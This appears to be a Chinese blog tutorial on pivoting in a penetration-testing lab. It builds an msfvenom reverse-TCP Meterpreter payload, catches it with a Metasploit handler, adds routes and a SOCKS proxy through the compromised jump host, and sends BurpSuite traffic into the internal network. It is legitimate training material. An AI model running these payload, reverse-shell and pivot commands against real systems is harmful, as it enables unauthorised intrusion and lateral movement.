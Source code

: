 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [blog.csdn.net](https://blog.csdn.net/weixin_44288604/article/details/121420049)

### 目录

*   [burpsuite 设置 socks5 代理访问内网](#burpsuitesocks5_2)
*   [burpsuite 设置上游代理访问内网](#burpsuite_23)
*   *   [1. msfvenom 生成木马](#1_msfvenom_29)
    *   [2. 跳板机 win2012 运行木马](#2_win2012_39)
    *   [3. msf 获取 shell](#3_msfshell_40)
    *   [4. msf 起路由](#4_msf_43)
    *   [5. 配置 socks_proxy](#5_socks_proxy_50)
    *   [6. 配置 windwos](#6_windwos_80)
    *   *   [6.1 测试 win7 联通内网 web](#61_win7web_82)
        *   [6.2 设置 BurpSuite](#62_BurpSuite_100)

> 纸上得来终觉浅，绝知此事要躬行。网上资料怎么写的都有，花了大半天时间整理了一下😔

burpsuite 设置 socks5 代理访问[内网](https://so.csdn.net/so/search?q=%E5%86%85%E7%BD%91&spm=1001.2101.3001.7020)
========================================================================================================

测试环境如下：  
![](https://img-blog.csdnimg.cn/b8ad5b2e4ea34e7eb8ca7a46329fba7f.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

注意事项：关闭[跳板机](https://so.csdn.net/so/search?q=%E8%B7%B3%E6%9D%BF%E6%9C%BA&spm=1001.2101.3001.7020) win2012 的防火墙，否则可能出现隧道无法正常使用。

1.  跳板机配置隧道

`ew_for_Win.exe -s ssocksd -l 1080`  
![](https://img-blog.csdnimg.cn/2a130fcd48784309a527bddeb52fac20.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

2.  配置 BurpSuite

![](https://img-blog.csdnimg.cn/2154d03c72744914bff8708785b0dac3.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

3.  访问内网机器

![](https://img-blog.csdnimg.cn/5f997df848f04b45ad7d73441060766d.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

burpsuite 设置上游代理访问内网
====================

msf 拿下站点，如何转给 BurpSuite？  
拓扑图如下：  
![](https://img-blog.csdnimg.cn/c33de39b0b5f4ce98497bb437e11086b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

1. msfvenom 生成木马
----------------

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.239.141 lport=4455 -f exe >r.exe  
然后 msf 开启监听

```
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost  192.168.239.141
msf6 exploit(multi/handler) > set lport 4455
msf6 exploit(multi/handler) > exploit 

```

2. 跳板机 win2012 运行木马
-------------------

3. msf 获取 shell
---------------

![](https://img-blog.csdnimg.cn/0f2aa4e66a7c4e79b351da492829845c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

4. msf 起路由
----------

可以参考之前的文章：[https://www.yuque.com/u1881995/pborfs/nf2nn5#rAXIQ](https://www.yuque.com/u1881995/pborfs/nf2nn5#rAXIQ)  
4.1 查看网络接口信息：`run get_local_subnets`  
4.2 以 CIDR 的方式添加路由信息：`run autoroute -s 192.168.195.0/24`  
4.3 查看活动路由列表，确认路由情况：`run autoroute -p`  
![](https://img-blog.csdnimg.cn/a50e0b4dd0ad438dacc99b26c4257c70.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

5. 配置 socks_proxy
-----------------

配置 socks_proxy，并运行

```
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy 
msf6 auxiliary(server/socks_proxy) > show options 

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The address to listen on
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


msf6 auxiliary(server/socks_proxy) > exploit 

```

下图中可以看到，没有 socks4a 了，取而代之的是`auxiliary/server/socks_proxy`，但是在配置选项，可以看到其支持 5 和 4a 两种，这里就用默认的 5 就行，**不需要做额外配置，直接运行。**  
![](https://img-blog.csdnimg.cn/f69ff8dd1a5a4a0eaccb83326a2fe296.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

6. 配置 windwos
-------------

这个时候先缕一缕思路啊，跳板机直通内网，kali 通过添加路由能间接通向内网。现在是如何让 win7 与 kali 之间建立隧道联系。在第 5 步中，msf 开启 socks 连接，win7 只需要把流量发到 kali 的 1080 端口即可。

### 6.1 测试 win7 联通内网 web

我这里使用插件 SwitchyOmega 配置一个代理，指明协议（kali 使用 socks5）、kali 的地址和 kali 监听的端口  
![](https://img-blog.csdnimg.cn/8eb1c1301f344106a9261e640ea4c6b0.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

试着访问一下，发现完全 OK  
![](https://img-blog.csdnimg.cn/9e91ad35b07f4ebdafbb624ac5ce580a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

此时让我们再来捋一下思路。

1.  win2012 直通内网靶机
2.  msf 直通 win2012，通过添加路由，间接通向内网靶机
3.  win7 直通 kali，通过访问 msf 的 socks5 连接，将流量发送到 kali
4.  最终的体验效果，就像是 win7 可以通过浏览器访问内网 debian 的 web 服务

![](https://img-blog.csdnimg.cn/91d8fc10e2c54d86817a61e541a6b33b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

这里，就已经证明网络是通的了，下面就可以去设置 BurpSuite 了

### 6.2 设置 BurpSuite

这里有个问题，我要使用 BurpSuite，怎么玩呢？我们知道，win7 是通过 socks5 协议与 msf 建立连接的，那么，我可以让 win7 的浏览器走 BurpSuite，BurpSuite 再把流量转发给本地的 Socks 代理工具，再由代理工具把流量发给 msf 即可。如下图  
![](https://img-blog.csdnimg.cn/0bcd200966f04888abee3639c20ce13d.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

1.  以管理员身份启动 SocksCap64，它才可以导入本机安装的浏览器。首次启动画面如下

![](https://img-blog.csdnimg.cn/fdaa8254431942818703aeffb15c70a1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

![](https://img-blog.csdnimg.cn/c600d0cb2afd499eb1d71f6bebf01cef.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

2.  添加代理

完事后点击右侧的 “保存” 按钮即可。  
![](https://img-blog.csdnimg.cn/1b7e3d19a593435e861f067bb160088d.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

3.  测试网络是否通畅

![](https://img-blog.csdnimg.cn/b2c1cd44a9ab4857b8624a4cc79c9f88.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

4.  开启全局代理

SocksCap64 监听本地的 25378 端口  
![](https://img-blog.csdnimg.cn/e69573b218eb49fdb7962554f311f633.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

5.  BurpSuite 设置顶级代理访问内网

![](https://img-blog.csdnimg.cn/869faca1dc984130b3878f544abe50e7.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

上面内容是英文的，就啰嗦一下上面写的都是啥玩意吧。拿中文版的 BurpSuite 解释一下。  
5.1 额外介绍的内容  
以经典的 burpsuite_pron_v2.1.07 为例，安装 java，激活 BurpSuite 之后，点击 “创建桌面快捷方式. bat”，就会在桌面创建一个图标。![](https://img-blog.csdnimg.cn/5187cc3a4ece4619b586e98efbd8e14b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

5.2 点击桌面的 BurpSuite 图标  
![](https://img-blog.csdnimg.cn/fbe42a64084a4f45a8c646c2e079cb22.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

6.  BurpSuite 可以使用了

![](https://img-blog.csdnimg.cn/4e47651e453b4b32ab15194ce54408bd.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)  
可以正常使用重放模块  
![](https://img-blog.csdnimg.cn/e10eb3e2152e44f78e2648bf947de50c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)
